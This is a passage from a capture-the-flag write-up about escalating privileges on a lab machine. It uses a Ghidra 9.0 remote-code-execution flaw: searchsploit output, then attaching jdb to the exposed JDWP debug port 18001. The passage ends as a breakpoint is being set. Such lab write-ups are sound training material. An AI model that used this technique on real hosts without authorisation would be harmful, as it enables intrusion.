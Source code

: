 **Also, in the home directory in `veronica`, it has a dircetory called `ghira_9.0`:**
```
www-data@ubuntu:/home/veronica$ ls -lah
drwxrwxrwx  9 veronica veronica 4.0K Feb 28  2019 ghidra_9.0
```

**And then I searched Ghidra exploit in `searchsploit`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# searchsploit ghidra                              
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Ghidra (Linux) 9.0.4 - .gar Arbitrary Code Execution                  | linux/local/47231.py
---------------------------------------------------------------------- ---------------------------------

┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# searchsploit -m 47231
```

There is a Ghidra RCE in version 9.0.4!

**By reading the exploit, it needs a `.gar` file:**
```py
# Line 35
parser.add_argument("file", help="Path to input export .gar file",default=1)
```

However, this exploit **requires an interaction with the Ghidra GUI.**

After I googling more about Ghidra 9.0 exploits, I found that there is a GitHub Issues says [RCE Through JDWP Debug Port](https://github.com/NationalSecurityAgency/ghidra/issues/6).

```
Remote code execution is achievable through the JDWP debug port 18001 which is opened to all interfaces when launching in debug mode.
```

Then, I also found a [YouTube demo video](https://www.youtube.com/watch?v=N3VcWIUpgfE&ab_channel=EthicalHackersClub) that showcasing this exploit.

**To exploit it, I'll:**

- Use `jdb` debugger to attach port 18001:

```
www-data@ubuntu:/home/veronica$ jdb -attach 127.0.0.1:18001
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> 
```

- Set a breakpoint in `org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()`:
